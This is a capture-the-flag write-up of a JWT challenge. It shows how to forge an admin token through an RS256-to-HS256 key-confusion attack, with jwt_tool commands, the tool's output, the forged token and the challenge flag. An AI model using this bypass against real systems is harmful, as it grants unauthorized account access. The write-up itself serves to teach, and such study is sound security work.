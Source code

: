 # Day 14 - JWT

Have you heard about the secure information sharing standard JWT? It can sometimes be a little confusing, but I think we got it all figured out.

## Write-Up
For this challenge we are given a link to some kind of web portal containing notes. We are greeted with a login page, where we have login credentials shown. Information also indicate that there is an *admin* account, but the password is redacted.

![](./images/image01.png)

Logging in we see that there are very little info. But at the bottom we see a link *Verify your key*, which is a link to a public key, *jwtRS256.key.pub*

![](./images/image02.png)

The challenge indicate JWT, Json Web Token, is the subject we should look into today.

Looking at the *cookie* we have after logging in, we find 

![](./images/image03.png)

To learn more about JWT we can lookup https://jwt.io/introduction. The structure of a JWT is:

- Header
- Payload
- Signature

The *header* and *payload* are Base64 encoded JSON strings, and the *signature* is the *header* and *payload* signed with an algorithm avaiable using a *secret*. As an example if using the *HMAC SHA256* algorithm.

```
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  secret)
```
The JWT token is these three Base64-URL safe strings separated by dots.

Let's decode our JWT token and see what kind of info that is stored.

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3QifQ.GU72t7mfy31jMvyY7hSinJBtAntSqjeuqJa6el2PGP
aq36hkZtn8fVo8JEgv7hnEdOHkibVLz9MLUca12yLmbylSxl-Nh2_pMf2s03JBsKs7oIJeBKjj7Pw4lXp1TQQj6ISTwzeBNAUlv4VXJ11G
-mPFKwYxTOQg7IX0FxyGMlGbLKoe3TXbw7trXwXevC9O_q_cxHRFMINg9vPAATKI0_PfMJPGBdewILLf1aExd37QhTUts8IE11ak3To8TD
nQZ14h14evccnWfVp8sQOFo81Rlp5r1j3WBQnaEsYhVMKuBgW2osceqgFG8ABIYj8eF7vtRzaJUMTVe_dUk0x43A8Meb5Xe2TdyIOkhoQP
HTZ3BYxLX4pW_yrjjPSAWSfCAEm07fqYc4tP7IXvZ7rtlGwq_eMoBotGj8KJAI1FqAc1kh6fC0KdQvvAY2XhifJZArCpXsRiyoSdjB5oJV
eDlsjyQ4HUcgfn8Yn0sEdC6tqyATIAMMWaGMDb54Iw0NX7F4P2VrCeZ75A3K-patffZFxyssqeS-rMYkbn8O7lXfaxoe8us-IKN5wCwNBp
82CSU0qR8U2iWU4Or22kNBRFuVV5sr2huMkIf1dodVmpodAExfiwEs28DCkKf9y5uV6fHJohX1Bo31JdghbsgPufM_z3GD1HSfBaMUpUSO
6vJME
```

The *header* tells us that the algorithm used is *RS256*.

```
$ echo 'eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9' | base64 -d                                    
{"typ":"JWT","alg":"RS256"} 
```

The *payload* tells us that the only thing in this token is a *username* and as we are logged in as "test" this is shown in the token. The decoding of the elements gives us an *invalid input* because the padding has been stripped from the token.

```
$ echo eyJ1c2VybmFtZSI6InRlc3QifQ | base64 -d
{"username":"test"}base64: invalid input

$ echo eyJ1c2VybmFtZSI6InRlc3QifQ== | base64 -d
{"username":"test"}
```

As our only other known username is *admin*, our challenge should be to get logged in as this user. By changing the JWT token this should be possible... We just have to find a way to do this.

Google'ing *JWT attacks* should give many interesting articles to read. From the simple *The None Algorithm* to more complex *JWT Key Confusion*.

*The None Algoritm* attack is in short using alg=none, and stripping of the signature. And if vulnerable the token verification is successful.

As we see that the algorithm used in our token is *RS256* and we also have a public key to verify the token, my guess it that this is a hint for us to notice.

The *RS256* alg, based on RSA with SHA256, is an asymmetric algorithm that uses a private key to sign the token and a public key to verify the signature. As we have the public key, we may verify the token, but are not able to sign tokens. Another alg, *HS256*, based on HMAC with SHA256, is an symmetric algorithm that uses one key for signing and validating.

**"May we be able to trick the site to accept another Alg?"**

Let us try this... Someone has been kind and explained what we need to do and how: [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/JSON%20Web%20Token/README.md#jwt-signature---rs256-to-hs256)

This method works like a charm, but consist of many manual steps. Let's also look at a nice tool which also makes this a bit simpler, *jwt_tool*, Ref: https://github.com/ticarpi/jwt_tool

![](./images/image05.png)

*jwt_tool* has many options, but let's get to work as we should have what we need.

- JWT Token, which need to be tampered with
- Public Key, which we will use to sign our new JWT token

Step 1 - Tamper with our initial JWT Token; username = admin
```
$ ~/utils/jwt_tool.py -T "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3QifQ.GU72t7mfy31jMvyY
7hSinJBtAntSqjeuqJa6el2PGPaq36hkZtn8fVo8JEgv7hnEdOHkibVLz9MLUca12yLmbylSxl-Nh2_pMf2s03JBsKs7oIJeBKjj7Pw4lX
p1TQQj6ISTwzeBNAUlv4VXJ11G-mPFKwYxTOQg7IX0FxyGMlGbLKoe3TXbw7trXwXevC9O_q_cxHRFMINg9vPAATKI0_PfMJPGBdewILLf
1aExd37QhTUts8IE11ak3To8TDnQZ14h14evccnWfVp8sQOFo81Rlp5r1j3WBQnaEsYhVMKuBgW2osceqgFG8ABIYj8eF7vtRzaJUMTVe_
dUk0x43A8Meb5Xe2TdyIOkhoQPHTZ3BYxLX4pW_yrjjPSAWSfCAEm07fqYc4tP7IXvZ7rtlGwq_eMoBotGj8KJAI1FqAc1kh6fC0KdQvvA
Y2XhifJZArCpXsRiyoSdjB5oJVeDlsjyQ4HUcgfn8Yn0sEdC6tqyATIAMMWaGMDb54Iw0NX7F4P2VrCeZ75A3K-patffZFxyssqeS-rMYk
bn8O7lXfaxoe8us-IKN5wCwNBp82CSU0qR8U2iWU4Or22kNBRFuVV5sr2huMkIf1dodVmpodAExfiwEs28DCkKf9y5uV6fHJohX1Bo31Jd
ghbsgPufM_z3GD1HSfBaMUpUSO6vJME"
```
```
Token payload values:
[1] username = "test"
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of username is: test
Please enter new value and hit ENTER
> admin
[1] username = "admin"
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step
```
Continuing the final steps will output a new JWT Token which we will use in the next step. 

Step 2 - We will try to exploit the *key confusion* and sign the token with the public key. *-X k*
 option for exploit and *-pk* to provide public key for signing.
```
$ ~/utils/jwt_tool/jwt_tool.py -X k -pk ./jwtRS256.key.pub "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2Vyb
mFtZSI6ImFkbWluIn0.GU72t7mfy31jMvyY7hSinJBtAntSqjeuqJa6el2PGPaq36hkZtn8fVo8JEgv7hnEdOHkibVLz9MLUca12yLmbyl
Sxl-Nh2_pMf2s03JBsKs7oIJeBKjj7Pw4lXp1TQQj6ISTwzeBNAUlv4VXJ11G-mPFKwYxTOQg7IX0FxyGMlGbLKoe3TXbw7trXwXevC9O_
q_cxHRFMINg9vPAATKI0_PfMJPGBdewILLf1aExd37QhTUts8IE11ak3To8TDnQZ14h14evccnWfVp8sQOFo81Rlp5r1j3WBQnaEsYhVMK
uBgW2osceqgFG8ABIYj8eF7vtRzaJUMTVe_dUk0x43A8Meb5Xe2TdyIOkhoQPHTZ3BYxLX4pW_yrjjPSAWSfCAEm07fqYc4tP7IXvZ7rtl
Gwq_eMoBotGj8KJAI1FqAc1kh6fC0KdQvvAY2XhifJZArCpXsRiyoSdjB5oJVeDlsjyQ4HUcgfn8Yn0sEdC6tqyATIAMMWaGMDb54Iw0NX
7F4P2VrCeZ75A3K-patffZFxyssqeS-rMYkbn8O7lXfaxoe8us-IKN5wCwNBp82CSU0qR8U2iWU4Or22kNBRFuVV5sr2huMkIf1dodVmpo
dAExfiwEs28DCkKf9y5uV6fHJohX1Bo31JdghbsgPufM_z3GD1HSfBaMUpUSO6vJME"
```
```
File loaded: ./jwtRS256.key.pub
jwttool_fdb22251b8935227e4fa80260ade8361 - EXPLOIT: Key-Confusion attack (signing using the Public Key as the HMAC secret)
(This will only be valid on unpatched implementations of JWT.)
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.
gERmL-_S0FkZDAbIE6zrYSIP2MKc3Mrh5jxOWkM8Gyw
```

We now go back to our browser and change the JWT value to our new token value. A quick reload of the page and we are presented with the flag.

![](./images/image04.png)

## The Flag
RSXC{You_have_to_remember_to_limit_what_algorithms_are_allowed}